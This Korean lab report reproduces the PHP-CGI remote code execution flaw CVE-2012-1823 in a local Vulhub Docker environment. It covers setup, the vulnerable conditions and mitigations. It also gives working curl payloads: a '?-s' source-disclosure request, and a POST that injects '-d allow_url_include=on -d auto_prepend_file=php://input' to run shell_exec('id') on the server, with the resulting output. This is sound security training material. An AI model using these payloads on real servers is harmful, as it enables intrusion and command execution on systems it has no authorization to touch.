


# CVE-2012-1823 PHP-CGI 원격 코드 실행 취약점 재현 보고서

## 1. 취약점 요약

CVE-2012-1823은 PHP-CGI 환경에서 발생하는 원격 코드 실행(RCE, Remote Code Execution) 취약점이다. PHP가 CGI 방식으로 실행될 때, 등호(`=`)가 없는 쿼리 문자열을 명령행 옵션처럼 처리하면서 공격자가 `-s`, `-d` 등의 PHP-CGI 옵션을 HTTP 요청에 삽입할 수 있다.

이 취약점을 이용하면 공격자는 PHP 소스코드를 노출시키거나, `auto_prepend_file=php://input`과 `allow_url_include=on` 설정을 주입하여 요청 본문에 포함한 PHP 코드를 서버에서 실행시킬 수 있다.

- CVE 번호: CVE-2012-1823
- 취약 제품: PHP-CGI
- 영향 버전: PHP 5.3.12 이전, PHP 5.4.2 이전의 CGI 구성
- 취약 유형: 원격 코드 실행, 명령 주입
- CVSS: 9.8 Critical (CISA-ADP CVSS 3.1 기준)
- 실습 환경: Vulhub PHP/CVE-2012-1823 Docker 환경

## 2. 환경 구성

본 실습은 `gunh0/kr-vulhub` 레포지토리의 `PHP/CVE-2012-1823` 환경에서 진행했다.

```bash
cd ~/projects/wh4/kr-vulhub/PHP/CVE-2012-1823
docker compose up -d
```

컨테이너 실행 상태는 다음 명령으로 확인했다.

```bash
docker compose ps
```

실행 결과, `cve-2012-1823-php-1` 컨테이너가 `Up` 상태로 동작했고, 호스트의 `8080` 포트가 컨테이너의 `80` 포트로 매핑되었다.

```text
NAME                  IMAGE               SERVICE   STATUS       PORTS
cve-2012-1823-php-1   vulhub/php:5.4.1-cgi php       Up 23 hours  0.0.0.0:8080->80/tcp
```

브라우저에서 `http://localhost:8080/`에 접속하면 다음과 같이 기본 페이지가 출력된다.



## 3. 취약 조건

이 취약점이 재현되기 위한 조건은 다음과 같다.

- PHP가 CGI 방식, 즉 `php-cgi` 형태로 실행되어야 한다.
- 취약한 PHP 버전이 사용되어야 한다.
  - PHP 5.3.12 이전
  - PHP 5.4.2 이전
- 웹 서버가 사용자의 쿼리 문자열을 PHP-CGI로 전달할 수 있어야 한다.
- 공격자는 HTTP 요청을 통해 PHP-CGI 옵션을 삽입할 수 있어야 한다.

본 실습 환경에서는 `vulhub/php:5.4.1-cgi` 이미지를 사용하므로 취약 조건을 만족한다.

## 4. 재현 절차

### 4.1 Docker 환경 실행

```bash
cd ~/projects/wh4/kr-vulhub/PHP/CVE-2012-1823
docker compose up -d
```

### 4.2 서비스 접속 확인

브라우저에서 아래 주소로 접속한다.

```text
http://localhost:8080/
```

정상적으로 환경이 실행되면 `Hello, Your name is Vulhub` 문구가 출력된다.

### 4.3 PHP 소스코드 노출 확인

PHP-CGI의 `-s` 옵션은 PHP 파일의 syntax-highlighted source를 출력한다. 취약한 환경에서는 이 옵션을 URL 쿼리 문자열로 전달할 수 있다.

```bash
curl "http://localhost:8080/index.php?-s"
```

실행 결과, `index.php`의 PHP 소스코드가 HTML 형태로 노출되었다.



### 4.4 원격 코드 실행 확인

`-d` 옵션을 이용해 PHP 설정값을 요청에서 직접 지정한다. `allow_url_include=on`과 `auto_prepend_file=php://input`을 설정하면 요청 본문에 포함한 PHP 코드가 먼저 실행된다.

```bash
curl -X POST "http://localhost:8080/index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp://input" --data '<?php echo shell_exec("id"); ?>'
```

## 5. PoC 코드

아래 PoC는 실습 환경 내부의 `localhost:8080`을 대상으로만 실행했다.

```bash
curl -X POST "http://localhost:8080/index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp://input" --data '<?php echo shell_exec("id"); ?>'
```

PoC 요청의 의미는 다음과 같다.

- `-d allow_url_include=on`: URL 기반 include 기능을 활성화한다.
- `-d auto_prepend_file=php://input`: 요청 본문을 PHP 실행 전에 포함하도록 설정한다.
- `<?php echo shell_exec("id"); ?>`: 서버에서 `id` 명령을 실행하고 결과를 출력한다.

## 6. 실행 결과

실제 실행 결과는 다음과 같다.

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
<br />
<b>Warning</b>: Cannot modify header information - headers already sent by (output started at php://input:1) in <b>/var/www/html/index.php</b> on line <b>2</b><br />
Hello,
```

`uid=33(www-data)`가 출력된 것은 요청 본문에 포함한 PHP 코드가 서버에서 실행되었음을 의미한다. 따라서 CVE-2012-1823 취약점을 이용한 원격 코드 실행이 성공적으로 재현되었다.

실행 중 출력된 `Cannot modify header information` 경고는 PHP 코드 실행 후 기존 애플리케이션이 헤더를 수정하려고 하면서 발생한 경고이다. 명령 실행 결과가 먼저 출력되었으므로 PoC 성공 여부에는 영향을 주지 않는다.


## 7. 대응 방안

CVE-2012-1823에 대한 대응 방안은 다음과 같다.

- PHP를 취약하지 않은 버전으로 업데이트한다.
  - PHP 5.3 계열은 5.3.12 이상
  - PHP 5.4 계열은 5.4.2 이상
- 가능한 경우 PHP-CGI 방식 대신 PHP-FPM 등 더 안전한 실행 방식을 사용한다.
- 웹 서버 설정에서 사용자가 전달한 쿼리 문자열이 PHP-CGI 옵션으로 해석되지 않도록 차단한다.
- `allow_url_include`와 같이 위험한 PHP 설정은 비활성화한다.
- 외부 입력값을 기반으로 서버 측 명령이나 PHP 설정이 변경되지 않도록 제한한다.
- 운영 환경에서는 오래된 PHP 버전을 사용하지 않고 보안 패치를 지속적으로 적용한다.

## 8. 환경 종료

실습이 끝난 뒤 다음 명령으로 컨테이너를 종료했다.

```bash
docker compose down
```

## 9. 참고 자료

- NVD, CVE-2012-1823: https://nvd.nist.gov/vuln/detail/CVE-2012-1823
- PHP Bug #61910: https://bugs.php.net/bug.php?id=61910
- PHP 5 ChangeLog: https://www.php.net/ChangeLog-5.php#5.4.2
- kr-vulhub PHP/CVE-2012-1823 실습 환경: https://github.com/gunh0/kr-vulhub/tree/main/PHP/CVE-2012-1823
